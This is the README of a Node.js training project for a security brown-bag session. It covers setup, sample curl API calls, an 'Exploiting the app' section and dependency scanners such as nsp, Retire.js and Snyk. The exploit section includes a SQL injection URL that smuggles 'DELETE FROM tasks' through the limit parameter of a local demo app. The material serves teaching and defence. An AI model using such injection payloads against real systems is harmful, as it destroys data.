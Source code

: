 # node-security-brown-bag
Scenarios for the brown bag session about secure node applications

## Badges

Snyk: [![Known Vulnerabilities](https://snyk.io/test/github/sdepold/node-security-brown-bag/badge.svg)](https://snyk.io/test/github/sdepold/node-security-brown-bag)

NSP: ![Known Vulnerabilities](https://nodesecurity.io/orgs/barfooz/projects/df73b085-1256-4e50-90df-9358236622ee/badge)


## Setup
The following steps have been made to initialize the project:

```
npm install -g express-generator
cd node-security-brown-bag
express -f
yarn add sequelize@3.16 mysql
yarn add --dev sequelize-cli
node_modules/.bin/sequelize init
node_modules/.bin/sequelize model:create --name Task --attributes title:string
```

## API

```
# Reading all tasks
curl "http://localhost:3000/tasks"

# Reading a limited amount of tasks
curl "http://localhost:3000/tasks?limit=2"

# Creating a task
curl "http://localhost:3000/tasks" -d '{"title":"Some title"}'  -H 'content-type:application/json'
```

## Exploiting the app

```
curl "http://localhost:3000/tasks" -d '{"title":"some task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" -d '{"title":"some other task"}'  -H 'content-type:application/json'
curl "http://localhost:3000/tasks" # Renders all tasks
curl "http://localhost:3000/tasks?limit=1" # Renders only a single task
curl "http://localhost:3000/tasks?limit=1;DELETE%20FROM%20tasks" # Will delete the tasks due to vulnerability
curl "http://localhost:3000/tasks" # Renders all available (aka no) tasks
```

## Security checks

### nsp

website: https://nodesecurity.io/

```
npm install --save-dev nsp
nsp check --output summary
```

### Retire.JS

Website: http://retirejs.github.io/retire.js/
Description: Walks through all the installed (!) dependencies and checks if they are vulnerable.

```
npm install --save-dev retire
retire
```

### Snyk

Website: https://snyk.io

```
npm install -g snyk
snyk wizard
snyk test
```
